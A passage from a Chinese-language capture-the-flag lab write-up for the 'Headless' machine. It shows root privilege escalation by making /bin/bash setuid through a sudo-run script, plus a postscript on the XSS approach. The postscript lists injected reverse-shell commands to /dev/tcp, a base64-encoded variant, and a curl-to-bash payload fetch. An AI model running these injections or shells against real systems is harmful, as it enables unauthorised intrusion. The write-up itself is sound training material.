 修改脚本后提权：
```bash
dvir@headless:~/app$ cat initdb.sh 
#!/bin/bash
chmod +s /bin/bash

dvir@headless:~/app$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1265648 Apr 24  2023 /bin/bash

dvir@headless:~/app$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...

dvir@headless:~/app$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 24  2023 /bin/bash

dvir@headless:~/app$ bash -p
bash-5.2# id
uid=1000(dvir) gid=1000(dvir) euid=0(root) egid=0(root) groups=0(root),100(users),1000(dvir)
```



## flag: root

```bash
bash-5.2# cat /root/root.txt 
20f7 (...) 158e
```

---

## 总结·后记

2024/04/14

应该算是十分简单的靶机，但是由于一开始并未领悟XSS触发条件为需要先触发WAF警告页面——因为报头注入的XSS会在WAF警告页面回显，所以一开始还卡了挺久的。回想起来最初看到WAF警告时，连警告页面的内容都没仔细看，就直接默认需要一些高级技巧来绕过，对XSS绕过进行了一阵大搜特搜，着实走偏了。最后意识到问题所在，便一切豁然开朗，迅速拿下。


### 失败的反弹shell

反弹shell的部分最开始试了下`;bash -i >& /dev/tcp/10.10.14.8/4444 0>&1`，以及其相关形式，如`;bash -c 'echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0NDQgMD4mMQ== |base64 -d |bash'`等都不行。很是奇怪，看了下目标脚本的处理也没明白为什么。  
不过将命令行写到脚本，然后用`curl <attacker-ip>/exp.sh |bash`的形式调用是可行的。

相关脚本：
```bash
bash-5.2$ cat /home/dvir/app/app.py

from flask import Flask, render_template, request, make_response, abort, send_file
from itsdangerous import URLSafeSerializer
import os
import random

 (...)

@app.route('/dashboard', methods=['GET', 'POST'])
def admin():
    if serializer.loads(request.cookies.get('is_admin')) == "user":
        return abort(401)

    script_output = ""

    if request.method == 'POST':
```